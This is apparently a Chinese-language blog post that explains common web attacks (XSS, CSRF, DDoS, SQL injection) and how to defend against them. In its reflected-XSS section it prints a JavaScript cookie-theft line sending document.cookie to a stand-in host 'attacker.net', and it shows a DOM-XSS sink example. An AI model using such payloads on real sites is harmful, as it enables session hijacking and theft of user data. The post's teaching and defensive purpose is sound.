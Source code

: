 ```yaml
---
layout: post
title: Web安全问题
categories: [前端开发]
description: some word here
keywords: Web安全
---
```


随着Web2.0、社交网络、微博等等一系列新型的互联网产品的诞生，基于Web环境的互联网应用越来越广泛，企业信息化的过程中各种应用都架设在Web平台上，Web业务的迅速发展也引起黑客们的强烈关注，接踵而至的就是Web安全威胁的凸显。下文对常见的Web安全问题和防范防范进行学习和总结。

## 跨站脚本攻击(XSS)
### 简介
跨站脚本攻击(Cross Site Scripting)为和层叠样式表(Cascading Style Sheets，CSS)区分开，在安全领域叫做“XSS”。恶意攻击者往Web页面里注入恶意Script代码，当用户浏览这些网页时，就会执行其中的恶意代码，
可对用户进行盗取cookie信息、会话劫持、篡改网页等各种攻击。XSS是常见的Web攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被OWASP列为当前的头号Web安全威胁。
攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上执行。
### 分类
#### 反射型XSS
服务器接受客户端的请求包，不会存储请求包的内容，只是简单的把用户输入的数据“反射”给浏览器。比如
```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```
访问这个链接则会获取cookie内容。
#### 存储型XSS
这类XSS攻击会把用户输入的数据“存储”在服务器端的数据库中。多发生在富文本编辑器、日志、留言、配置系统等数据库保存用户输入内容的业务场景。即用户的注入脚本保存到了数据库里，
其他用户进行访问涉及到包含恶意脚本的链接都会中招。由于这段恶意的脚本被上传保存到了服务器，这种XSS攻击就叫做“存储型XSS”。
#### 基于DOM的XSS
DOM XSS和反射型XSS、存储型XSS的差别在于DOM XSS的代码并不需要服务器参与，触发XSS靠的是浏览器端的DOM解析。攻击者将攻击脚本注入到DOM结构里，比如```<script>document.write(window.location.search); </script>```
### 防范
#### 对输入进行检查、过滤
不信任任何用户的输入，对每个用户的输入都做严格检查。通过检验输入值的有效性， 当输入值不符合条件时就显示错误消息并促使用户重新输入，在输出的时候，对某些特殊字符进行转义，替换。
例如，在HTML中显示<时，必须按照字符实体引用（Character Entity Reference）将其转义记载为'&lt';。而如果忽略这一步骤直接生成HTML的话，浏览器就会将<解释为标签的开始。
从而就会招致恶意利用此漏洞进行的XSS攻击。
没有用引号括起来的属性值也会导致XSS攻击，空格就意味着属性值的结束，就可以通过插入空格来添加属性，比如onmouseover事件绑定。
然而， 即使属性值都用引号括了起来，但只要"没有被转义，还是会发生 XSS 攻击。所以要对<和"进行转义。
#### 输出编码
服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范XSS攻击。JavaScript的编码方式可以使用JavascriptEncode。

#### 辅助性对策 
给 Cookie添加 HttpOnly属性，该属性能禁止JavaScript读取Cookie值。对Cookie信息进行MD5等算法进行多次散列存放，必要时还要对ip和cookie进行绑定，一旦检测异常，立马让用户重新登录。

## 跨站请求伪造(CSRF)
### 简介
跨站请求伪造(CSRF)可以攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。参考别的博客的一张图，过程如下：
![](/images/web/w12.png)
### 防范
#### 执行重要业务之前，要求用户提交额外的信息。通过 token 或者 验证码 来检测用户提交
#### 尽量不要在页面的链接中暴露用户隐私信息，对于用户修改删除等操作最好都使用post 操作 。
#### 限制验证cookie的到期时间。这些cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。不过，这个时间越短，用户就越不方便。因此，你需要在安全性和方便性之间进行平衡。避免全站通用的cookie，严格设置cookie的域

## 分布式拒绝服务攻击(DDoS)
### 简介
利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应

### 防范
#### 隐藏服务器的真实IP地址，及时变更
#### 防火墙上放置一份 ACL（访问控制列表) 来阻断这些来自这些 IP 的访问
#### 使用高性能的负载均衡软件

## SQL注入
### 简介
把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
### 防范
单引号转义、preparestatement预编译接口